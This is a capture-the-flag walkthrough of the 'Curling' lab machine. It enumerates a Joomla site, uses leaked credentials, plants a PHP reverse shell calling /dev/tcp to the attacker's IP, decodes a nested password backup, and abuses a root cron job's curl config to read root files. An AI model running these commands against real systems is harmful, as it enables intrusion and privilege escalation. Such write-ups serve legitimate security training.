




---
search:
  exclude: true
---
# Curling Writeup

## Introduction :

Curling is an easy Linux box that was released back in October 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → nmap -F 10.10.10.150 --top-ports 65535
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-05 15:48 CET
      Nmap scan report for 10.10.10.150
      Host is up (0.038s latency).
      Not shown: 8318 closed ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 8.68 seconds
    
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → nmap -sC -sV -p22,80 10.10.10.150
    Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-05 15:51 CET
    Nmap scan report for 10.10.10.150
    Host is up (0.039s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
    |   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
    |_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-generator: Joomla! - Open Source Content Management
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Home
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
    

## **Part 2 : Getting User Access**

Our nmap picked up the 80th port running a Joomla! webservice. We will run a dirsearch command in the background while we start to enumerate this port.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → dirsearch -u http://10.10.10.150/ -r -e php -t 50 -x 403
    
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
      → searchsploit Joomla! | wc -l
      1421
    

Joomla! is a well known service with more than a thousand exploits available. 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → dirsearch -u http://10.10.10.150/
    No extension specified. You must specify at least one extension or try using default extension list.
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → dirsearch -u http://10.10.10.150/ -r -e php -t 50 -x 403
    
     _|. _ _  _  _  _ _|_    v0.3.9
    (_||| _) (/_(_|| (_| )
    
    Extensions: php | HTTP method: get | Threads: 50 | Wordlist size: 6027 | Recursion level: 1
    
    Error Log: /root/.dirsearch/logs/errors-19-12-05_15-52-05.log
    
    Target: http://10.10.10.150/
    
    [15:52:05] Starting:
    [15:52:12] 301 -  320B  - /administrator  ->  http://10.10.10.150/administrator/
    [15:52:12] 200 -    5KB - /administrator/
    [15:52:12] 301 -  325B  - /administrator/logs  ->  http://10.10.10.150/administrator/logs/
    [15:52:12] 200 -    5KB - /administrator/index.php
    [15:52:14] 301 -  310B  - /bin  ->  http://10.10.10.150/bin/
    [15:52:14] 200 -   31B  - /bin/
    [15:52:14] 301 -  312B  - /cache  ->  http://10.10.10.150/cache/
    [15:52:14] 200 -   31B  - /cache/
    [15:52:15] 301 -  317B  - /components  ->  http://10.10.10.150/components/
    [15:52:15] 200 -    0B  - /configuration.php
    [15:52:18] 200 -    3KB - /htaccess.txt
    [15:52:18] 301 -  313B  - /images  ->  http://10.10.10.150/images/
    [15:52:18] 200 -   31B  - /includes/
    [15:52:18] 301 -  315B  - /includes  ->  http://10.10.10.150/includes/
    [15:52:18] 200 -   14KB - /index.php
    [15:52:19] 301 -  315B  - /language  ->  http://10.10.10.150/language/
    [15:52:19] 301 -  316B  - /libraries  ->  http://10.10.10.150/libraries/
    [15:52:19] 200 -   18KB - /LICENSE.txt
    [15:52:20] 301 -  312B  - /media  ->  http://10.10.10.150/media/
    [15:52:21] 301 -  314B  - /modules  ->  http://10.10.10.150/modules/
    [15:52:23] 301 -  314B  - /plugins  ->  http://10.10.10.150/plugins/
    [15:52:23] 200 -    5KB - /README.txt
    [15:52:26] 301 -  316B  - /templates  ->  http://10.10.10.150/templates/
    [15:52:26] 200 -   31B  - /templates/
    [15:52:26] 200 -   31B  - /tmp/
    [15:52:26] 301 -  310B  - /tmp  ->  http://10.10.10.150/tmp/
    [15:52:27] 200 -    2KB - /web.config.txt
    [15:52:28] Starting: administrator/
    [15:52:35] 301 -  326B  - /administrator/cache  ->  http://10.10.10.150/administrator/cache/
    [15:52:35] 200 -   31B  - /administrator/cache/
    [15:52:36] 301 -  331B  - /administrator/components  ->  http://10.10.10.150/administrator/components/
    [15:52:39] 301 -  325B  - /administrator/help  ->  http://10.10.10.150/administrator/help/
    [15:52:39] 200 -    1KB - /administrator/help/
    [15:52:40] 301 -  329B  - /administrator/includes  ->  http://10.10.10.150/administrator/includes/
    [15:52:40] 200 -    2KB - /administrator/includes/
    [15:52:40] 200 -    5KB - /administrator/index.php
    [15:52:40] 200 -    5KB - /administrator/index.php/login/
    [15:52:41] 301 -  329B  - /administrator/language  ->  http://10.10.10.150/administrator/language/
    [15:52:41] 301 -  325B  - /administrator/logs  ->  http://10.10.10.150/administrator/logs/
    [15:52:41] 200 -   31B  - /administrator/logs/
    [15:52:42] 301 -  328B  - /administrator/modules  ->  http://10.10.10.150/administrator/modules/
    [15:52:47] 301 -  330B  - /administrator/templates  ->  http://10.10.10.150/administrator/templates/
    [15:52:47] 200 -    1KB - /administrator/templates/
    [15:52:49] Starting: bin/
    [15:53:01] 200 -   31B  - /bin/index.md
    [15:53:10] Starting: cache/
    [15:53:23] 200 -   31B  - /cache/index.md
    [15:53:31] Starting: components/
    [15:53:44] 200 -   31B  - /components/index.md
    [15:53:53] Starting: images/
    [15:54:00] 301 -  321B  - /images/banners  ->  http://10.10.10.150/images/banners/
    [15:54:00] 200 -    2KB - /images/banners/
    [15:54:05] 301 -  321B  - /images/headers  ->  http://10.10.10.150/images/headers/
    [15:54:05] 200 -   31B  - /images/index.md
    [15:54:14] Starting: includes/
    [15:54:27] 200 -   31B  - /includes/index.md
    [15:54:36] Starting: language/
    [15:54:48] 200 -   31B  - /language/index.md
    [15:54:57] Starting: libraries/
    [15:55:06] 301 -  320B  - /libraries/cms  ->  http://10.10.10.150/libraries/cms/
    [15:55:06] 200 -    1KB - /libraries/cms/
    [15:55:10] 200 -    0B  - /libraries/import.php
    [15:55:10] 200 -   31B  - /libraries/index.md
    [15:55:10] 301 -  323B  - /libraries/joomla  ->  http://10.10.10.150/libraries/joomla/
    [15:55:17] 301 -  320B  - /libraries/src  ->  http://10.10.10.150/libraries/src/
    [15:55:18] 200 -    0B  - /libraries/vendor/composer/autoload_namespaces.php
    [15:55:18] 200 -    0B  - /libraries/vendor/composer/autoload_psr4.php
    [15:55:18] 200 -    0B  - /libraries/vendor/composer/autoload_static.php
    [15:55:18] 200 -    0B  - /libraries/vendor/composer/ClassLoader.php
    [15:55:18] 200 -    1KB - /libraries/vendor/composer/LICENSE
    [15:55:18] 200 -    0B  - /libraries/vendor/composer/autoload_classmap.php
    [15:55:18] 200 -    0B  - /libraries/vendor/autoload.php
    [15:55:18] 200 -    0B  - /libraries/vendor/composer/autoload_real.php
    [15:55:18] 200 -    0B  - /libraries/vendor/composer/autoload_files.php
    [15:55:19] 200 -   47KB - /libraries/vendor/composer/installed.json
    [15:55:19] Starting: media/
    [15:55:28] 301 -  316B  - /media/cms  ->  http://10.10.10.150/media/cms/
    [15:55:28] 200 -  941B  - /media/cms/
    [15:55:28] 301 -  321B  - /media/contacts  ->  http://10.10.10.150/media/contacts/
    [15:55:32] 200 -   31B  - /media/index.md
    [15:55:34] 301 -  318B  - /media/media  ->  http://10.10.10.150/media/media/
    [15:55:39] 301 -  319B  - /media/system  ->  http://10.10.10.150/media/system/
    [15:55:39] 200 -    1KB - /media/system/
    [15:55:41] Starting: modules/
    [15:55:53] 200 -   31B  - /modules/index.md
    [15:56:03] Starting: plugins/
    CTRL+C detected: Pausing threads, please wait...
    
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Curling ]
      → curl -sk http://10.10.10.150/ | grep Floris
      <****p>- Floris <****/p>
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Curling ]
      → curl -sk http://10.10.10.150/ | grep secret
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Curling ]
      → curl -sk http://10.10.10.150/secret.txt
      Q3VybGluZzIwMTgh
    

Looking at the sourcecode of the index page of the box, we see that the username Floris comes up. At the bottom of the index sourcecode we see a commented line "secret.txt" Browsing to this /secret.txt file we get seem to get a strong password which could be base64-encoded : Q3VybGluZzIwMTgh 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Curling ]
    → curl -sk http://10.10.10.150/secret.txt | base64 -d
    Curling2018!
    

Seems like we were right ! We now have credentials to work with. Our dirsearch command found the /administrator webpage earlier, Browsing onto it we find the joomla! login page, onto which we will try our freshly-acquired credentials : Floris:Curling2018!

 

And we are logged in ! Now we navigate into Extensions > Templates > Options and set public and superuser permissions to allowed.

Once that's done we will save the options and navigate to the Beez3 template details in order to edit it's index php file.

Replace the entire php code with a reverse php shell one liner that will send back a reverse shell connection to our local machine (10.10.14.48) at the 9001 port.
    
    
    <****?php
    echo("nihilist WAS HERE");
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.48/9001 0>&1'");
    

We will use a terminal in order to recieve the incoming shell connection using the nc command with the -lvnp flags.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Curling ]
      → nc -lvnp 9001
    

We then click "preview template" which will run the infected index.php file and send us a reverse shell connection. 

As you can see, the echo() statement is being executed, which displays our string. Naturally, it also execute the reverse shell one liner.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Curling ]
    → nc -lvnp 9001
    Connection from 10.10.10.150:51798
    bash: cannot set terminal process group (1319): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@curling:/var/www/html$ whoami
    whoami
    www-data
    www-data@curling:/var/www/html$ uname -a
    uname -a
    Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    

And we are logged in as www-data ! now let's see if we can print out the user flag.
    
    
    www-data@curling:/var/www/html$ cd /home/floris
    cd /home/floris
    www-data@curling:/home/floris$ cat user.txt
    cat user.txt
    cat: user.txt: Permission denied
    

It seems like we are not logged in with enough permissions. We will need to escalate privileges in order to gain the user access. Poking around the box from within our low-privileged shell, we find an interesting file named "password_backup"
    
    
      www-data@curling:/home/floris$ ls
    ls
    admin-area
    password_backup
    user.txt
    www-data@curling:/home/floris$ file password_backup
    file password_backup
    password_backup: ASCII text
    www-data@curling:/home/floris$ cat password_backup
    cat password_backup
    00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..;
    00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
    00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
    00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
    00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
    00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
    00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
    00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
    00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
    00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
    000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
    000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
    000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
    000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
    000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
    000000f0: 819b bb48                                ...H
    

We see that it is a hexdump file. We save it locally and decode it using the xxd command with the -r flag.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → nano password_backup
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → ls
      password_backup
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → cat password_backup | xxd -r
      BZh91AY&SY;���H���A��P)ava�:4N���nT#�@%�`
                                               ��z�@�i�4hdi���9�h�Q�dh����4i�5n�׌��Jh��*��}y.�<~�x�>  �sVT�zH�ߢ�1�V��`F���"��n�
           ۇ7j:X�dR��k�� ���)p�7۫;���9��PC�Y�P	�HB��*	��G� �U@r�rE8P����H#
    

That's weird, we seem to get a binary file once we decode the hexdump, we will save it as "BACKUP" and we'll run the file command to find out what it actually is. 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → xxd -r password_backup > BACKUP
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → file BACKUP
      BACKUP: bzip2 compressed data, block size = 900k
    

We seem to get a bzip2 file ! let's give it it's proper extension and then try to decompress it with the bzip2 command along with it's -d flag.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → mv BACKUP BACKUP.bz2
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → bzip2 -d BACKUP.bz2
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → ls
      BACKUP  password_backup
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → file BACKUP
      BACKUP: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141
    

Now we seem to end up with a gzip file ! Let's give it it's proper extension and now try to decompress it with the gunzip command. 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → mv BACKUP BACKUP.gz
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → gunzip BACKUP.gz
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → ls
      BACKUP  password_backup
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → file BACKUP
      BACKUP: bzip2 compressed data, block size = 900k
    

Again a bzip2 file ! let's decompress it once again. 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → mv BACKUP BACKUP.bz2
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → bzip2 -d BACKUP.bz2
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → ls
    BACKUP  password_backup
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → file BACKUP
    BACKUP: POSIX tar archive (GNU)
    

Now it's a tar archive... to decompress it we will use the tar command with the -xvf flags.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → mv BACKUP BACKUP.tar
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → tar -xvf BACKUP.tar
    password.txt
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → cat password.txt
    5d<****wdCbdZu)|hChXll

And there we go ! we have a password to work with now. We will use it to login as the user floris through a ssh connection.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Curling] → ssh floris@10.10.10.150
      The authenticity of host '10.10.10.150 (10.10.10.150)' can't be established.
      ECDSA key fingerprint is SHA256:o1Cqn+GlxiPRiKhany4ZMStLp3t9ePE9GjscsUsEjWM.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.150' (ECDSA) to the list of known hosts.
      floris@10.10.10.150's password:
      Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
        System information as of Fri Dec  6 10:26:56 UTC 2019
    
        System load:  0.0               Processes:            169
        Usage of /:   46.2% of 9.78GB   Users logged in:      0
        Memory usage: 21%               IP address for ens33: 10.10.10.150
        Swap usage:   0%
    
    
      0 packages can be updated.
      0 updates are security updates.
    
    
      Last login: Mon May 28 17:00:48 2018 from 192.168.1.71
      floris@curling:~$ uname -a && whoami
      Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
      floris
      floris@curling:~$ cat /home/floris/user.txt
      65XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we are logged in ! We now have the necessary premissions to print out the user flag. 

## **Part 3 : Getting Root Access**

Onto the machine there is a cronjob running every minute that is executing something inside the admin-area folder. 
    
    
    floris@curling:~$ ls -l
    total 12
    drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
    -rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
    -rw-r----- 1 floris floris   33 May 22  2018 user.txt
    floris@curling:~$ cd admin-area
    floris@curling:~/admin-area$ ls -l
    total 20
    -rw-rw---- 1 root floris    25 Dec  6 10:34 input
    -rw-rw---- 1 root floris 14236 Dec  6 10:34 report
    

Within that folder we see that there are 2 files : input and report 
    
    
    floris@curling:~/admin-area$ cat input
    url = "http://127.0.0.1"
    floris@curling:~/admin-area$ cat output
    

It seems like the input file is the command, and report is the output of the command. Let's not do something too complicated, we'll just change the URL to the root flag's location.
    
    
      floris@curling:~/admin-area$ echo 'url = file:///root/root.txt' > input
    

Wait exactly one minute and then print out the now-updated report file :
    
    
      floris@curling:~/admin-area$ cat report
    82XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

